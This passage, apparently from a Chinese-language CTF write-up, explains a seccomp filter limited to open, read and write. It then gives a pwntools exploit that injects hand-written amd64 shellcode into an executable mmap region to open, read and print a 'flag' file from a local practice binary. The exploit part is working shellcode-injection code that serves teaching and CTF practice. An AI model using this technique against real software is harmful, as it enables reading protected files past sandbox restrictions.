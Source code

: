 返回的结果还是比较好看懂的, 第2行获取系统调用号, 如果系统调用号不等于open, read和write的就会跳转到KILL, 程序直接退出, 反之则ALLOW继续运行

这道题的逻辑也很好懂, 就是申请了一个具有可读可写可执行的mmap区, 然后我们写入shellcode, 直接跳转去执行, 所以直接用orw代码片段就可以

#### Exploit

```python
from pwn import*
context.log_level = 'debug'
context.os = 'linux'	# 指定操作系统
context.arch = 'amd64'	# 指定架构
# 不指定那两个asm就会执行错误

o = process('./orw_shellcode')

shellc = '''
push 0x67616c66
push rsp
pop rdi
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall
push 3
pop rdi
push 0x10100
pop rsi
push 0x50
pop rdx
mov rax, 0
syscall
push 1
pop rdi
mov rax, 1
syscall
'''
shellc = asm(shellc)
o.recv()
o.sendline(shellc)
o.interactive()
```

可以自己去分析一下这里的shellcode
